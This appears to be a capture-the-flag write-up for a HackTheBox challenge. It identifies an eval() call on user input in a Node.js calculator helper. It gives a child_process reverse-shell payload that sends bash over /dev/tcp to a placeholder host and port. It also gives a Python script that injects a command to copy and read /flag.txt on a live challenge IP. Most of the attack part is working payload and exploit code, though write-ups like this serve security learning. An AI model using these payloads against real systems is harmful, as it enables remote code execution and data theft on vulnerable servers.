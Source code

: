## This is my solution to the Insomnia Challenge on HackTheBox

### Issue in the Original Code

The original developer use eval() function on user input which is very dangerous

#### Mistake 

In helpers/calculatorHelper.js:
```
module.exports = {
    calculate(formula) {
        try {
            return eval(`(function() { return ${ formula } ;}())`);

        } catch (e) {
            if (e instanceof SyntaxError) {
                return 'Something went wrong!';
            }
        }
    }
}
```

The program is using eval function on user_input. We'll tried to exploit it by using that input.
You can find node js rce payload [Link Here](https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44)
I used this one but a little modified for to be compitable with the challenge
```
/?q=require('child_process').exec('bash+-c+"bash+-i+>%26+/dev/tcp/nc_host/nc_port+0>%261"')
```

### Here is my exploit

```python
import requests
from bs4 import BeautifulSoup as bs

url = "http://94.237.62.195:45843"
data = {"formula":"require(\"child_process\").exec(\"cat /flag.txt > /app/static/css/ok.txt\")"}

respond  = requests.post(f"{url}/api/calculate",json=data,headers={"Content-type":"Application/json"})
flag = requests.get(f"{url}/static/css/ok.txt")
print(flag.text.strip())
```

This Python script demonstrates how to exploit the vulnerability and then retrieving the flag.

